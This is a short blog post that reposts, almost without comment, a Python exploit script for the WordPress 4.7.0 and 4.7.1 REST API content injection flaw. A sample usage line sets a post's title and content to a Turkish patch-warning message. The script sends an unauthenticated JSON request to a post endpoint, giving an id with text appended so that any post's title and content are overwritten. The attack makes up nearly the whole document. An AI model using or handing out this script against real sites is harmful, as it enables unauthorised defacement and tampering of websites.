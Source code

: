 ```yaml
---
layout: post
title: Wordpress Content Injection Exploit ver: 4.7.0 &amp; 4.7.1
date: 2022-02-16 15:47
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":1816,"width":553,"height":311,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large is-resized"><img src="https://theguler.wordpress.com/wp-content/uploads/2022/02/wordpress.jpg?w=778" alt="" class="wp-image-1816" width="553" height="311" /></figure>
<!-- /wp:image -->

<!-- wp:preformatted -->
<pre id="block-212c4770-1090-40f9-a3aa-882bb19bd474" class="wp-block-preformatted">Usage: wp-content-injection.py --url http://127.0.0.1/wordpress/index.php/wp-json/wp/v2/posts/6 --title "test_icindir" --content "dikkat! lütfen pacth gecininiz...</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre id="block-212c4770-1090-40f9-a3aa-882bb19bd474" class="wp-block-preformatted"># wp-content-injection.py
# Exploit Title: WP Content Injection Exploit
# Date: 02-02-2017
# Exploit Author: Rony Das
# Vendor Homepage: https://wordpress.org/
# Software Link: https://wordpress.org/download/release-archive/
# Version: Wordpress 4.7.0 &amp; 4.7.1
# Tested on: BackBox - Ubuntu Based
# Founded by: https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html
import json
import requests
import optparse
import sys
from urlparse import urlparse
import time
script = sys.argv[0]
def getPid(url):
    l = url.split('/')
    getpid = l[l.index('posts') + 1]
    return getpid

def getDomain(url):
    parsed_uri = urlparse(url)
    domain = '{uri.scheme}://{uri.netloc}/'.format(uri=parsed_uri)
    return domain

def banner():
    return """
********************************************************
* _    _______      ______ _____ _____ _____    _____  *
*| |  | | ___ \     | ___ \  _  /  ___|_   _|  |_   _| *
*| |  | | |_/ /_____| |_/ / | | \ `--.  | |______| |   *
*| |/\| |  __/______|  __/| | | |`--. \ | |______| |   *
*\  /\  / |         | |   \ \_/ /\__/ / | |     _| |_  *
* \/  \/\_|         \_|    \___/\____/  \_/     \___/  *
*                                                      *
********************************************************
Greetz:~ Dipendra,Kirit dada &lt;3, Abk Khan, Mukarram Khalid, Ahmed Raza
"""

def main():
    parser = optparse.OptionParser("Usage: "+script+" -u &lt;URL&gt; --title \"&lt;PAGE_TITLE&gt;\" --content \"&lt;PAGE_CONTENT&gt;\"")
    parser.add_option("-u", "--url", dest="URL", type="string", help="Specify the URL")
    parser.add_option("-t", "--title", dest="TITLE", type="string", help="Specify the Page Title")
    parser.add_option("-c", "--content", dest="CONTENT", type="string", help="Specify the Page Content")
    (options, args) = parser.parse_args()
    url     = options.URL
    title   = options.TITLE
    content = options.CONTENT
    data = {"id" : ""+str(getPid(url))+"textappendshere", "title" : ""+title+"", "content" : ""+content+""}
    headers = {'Content-Type': "application/json; charset=xxxe", 'Accept': "application/json"}
    res = requests.post(url, data=json.dumps(data), headers=headers)
    resp = res.status_code
    print banner()
    print "Status Code: "+str(resp)
    print time.sleep(2)
    if str(resp) == "200":
        print "Yay!"
        print "[+] Exploiting .. "
        print "[+] check the post.."
        print "[+] "+getDomain(url)+"?p="+getPid(url)
    else:
        print "May be not vulnerable?"
if __name__ == '__main__':
    try:
        main()
    except KeyboardInterrupt:
        print "[-] User stooped the script."
        sys.exit(0)
    except:
        pass</pre>
<!-- /wp:preformatted -->
